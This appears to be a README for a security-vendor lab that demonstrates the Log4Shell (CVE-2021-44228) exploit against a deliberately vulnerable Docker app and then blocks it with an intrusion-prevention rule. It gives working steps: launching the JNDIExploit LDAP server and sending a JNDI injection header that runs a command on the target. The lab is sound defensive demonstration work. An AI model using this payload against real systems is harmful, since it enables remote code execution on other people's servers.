 # Cloud One - Workload Security Log4Shell
This repo contains a quick deployment template to showcase CVE-2021-44228 LOG4SHELL exploit and Workload Security Intrusion Prevention

## Deploy CloudFormation Template

Parameters to Define:
- **KeyPair**: Name of a current Key Pair
- **IPforSSH**: restrict SSH access to your IP. Default is 0.0.0.0/0

[![Launch Stack](https://cdn.rawgit.com/buildkite/cloudformation-launch-stack-button-svg/master/launch-stack.svg)](https://aws-workshop-c1as-cft-templates.s3.amazonaws.com/c1-ws-log4shell.yaml)

![architecture](images/architecture.png)

## After CloudFormation Template Deployment

1. SSH into EC2 instance(Shell A)
    ```bash
    sudo su
    <Deploy Workload Security Agent deployment script with Linux Policy attached.>
    ```
    ![deployment_script](images/deploymentscript.png)

2. In Cloud One-WS: Assign IPS rule for CVE-2021-44228 to linux machine
    - IPS rule number: **1011242**
    - Assign rule and change to **Detect Only** for now.
    - Accept all rule dependencies.
    
    ![ips_rule](images/ipsrule.png)
    
    ![detect_only](images/detectonly.png)

3. Start docker app(Shell A)

```bash
cd log4shell-vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```
![docker_run](images/dockerstart.png)

4. Open Second SSH session(Shell B) and run command to create LDAP server
* [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) provided by feihong-cs before it was removed from GitHub.
```bash
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

5. Run Exploit
- Open new SSH session(Shell C)

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```
Notice the output(Shell B) of JNDIExploit, showing it has sent the malicious LDAP response and served the second-stage payload:

![shell-b](images/shell-b.png)

6. Confirm RCE was successful with the creation of pwned.txt file inside the running container's /tmp directory. 
- Using Shell C

```bash
docker exec vulnerable-app ls /tmp
```

7. Repeat attack this time with IPS rule set to **Prevent**


<hr>

## Reference
Thank you [christophetd](https://github.com/christophetd/log4shell-vulnerable-app) for providing the vulnerable Spring Boot web application.